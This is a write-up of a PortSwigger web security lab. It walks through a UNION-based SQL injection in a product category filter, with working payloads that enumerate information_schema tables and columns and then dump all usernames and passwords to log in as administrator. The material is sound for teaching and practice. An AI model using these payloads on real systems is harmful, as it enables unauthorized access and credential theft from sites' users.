






# SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases Write Up
>**Source:** https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle


**Title:** SQL Injection Attack, Listing the Database Contents on Non-Oracle Databases

**Category:** Injection, Web Exploitation

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solution

### 1. Use Burp Suite to intercept and analyze the request that sets the product category filter.


### 2. Determine the number of columns that are being returned by the query and which columns contain `text` data. 
> Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

`'+UNION+SELECT+'Hi','World'--`



### 3. Crafting the Payload
Use the following payload to retrieve the list of tables in the database:

````sql
'+UNION+SELECT+table_name,'List of Collumns'+FROM+information_schema.tables-- 
````



From this request, we found the schema that keep the credentials, which in this case is `users_hpftou`

### 4. Find the name of the table containing user credentials.

Use the following payload, by replacing the table name to retrieve the details of the columns in the table:

````sql
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_hpftou'--
````



With this information, we gain more information that the collumns we are trying to expose are `password_ppfsbx` and `username_ohinoe` 

### 5. Find the names of the columns containing usernames and passwords.

> Use the following payload by replacing the table and column name to retrieve the usernames and passwords for all users

````sql
'+UNION+SELECT+username_ohinoe,+password_ppfsbx+FROM+users_hpftou --
````

### 6. Find the password for the administrator user, and use it to log in.



We can see that using the payload really worked and got us the credentials, therefore we can just use it and log in as an admin





## Solution Explanation

This solution leverages a `UNION`-based SQL injection in the product category filter to systematically extract user credentials. The process began by confirming the query returns two text-based columns. Next, an injection querying `information_schema.tables` revealed the name of the user table, `users_hpftou`. With the table name known, a subsequent injection queried `information_schema.columns` to identify the specific column names for usernames and passwords. Finally, a `UNION SELECT` statement was crafted to pull all usernames and passwords directly from the `users_hpftou` table, exposing the administrator's credentials, which were then used to log in and complete the lab.